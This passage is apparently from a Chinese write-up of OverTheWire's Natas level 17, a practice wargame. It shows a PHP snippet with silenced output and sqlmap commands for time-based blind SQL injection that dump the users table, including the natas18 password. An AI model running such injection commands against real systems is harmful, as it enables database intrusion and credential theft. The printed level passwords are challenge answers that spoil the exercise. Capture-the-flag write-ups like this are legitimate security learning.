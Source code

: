 ```php
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

一眼啥都没有，就是时间盲注或者报错盲注，交给sqlmap

```bash
sqlmap --proxy=http://127.0.0.1:7890 -r sqlmap.txt --dbms=mysql --level=3 --time-sec 2 --batch -D natas17 -T users
```

![img](img/image_20250130-203047.png)

即可得到结果

```bash
sqlmap --proxy=http://127.0.0.1:7890 -r sqlmap.txt --dbms=mysql --level=3 --time-sec 2 --batch -D natas17 -T users --dump

ser3
Database: natas17
Table: users
[4 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd | user1    |
| 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ | natas18  |
| MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 | user2    |
| VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD | user3    |
```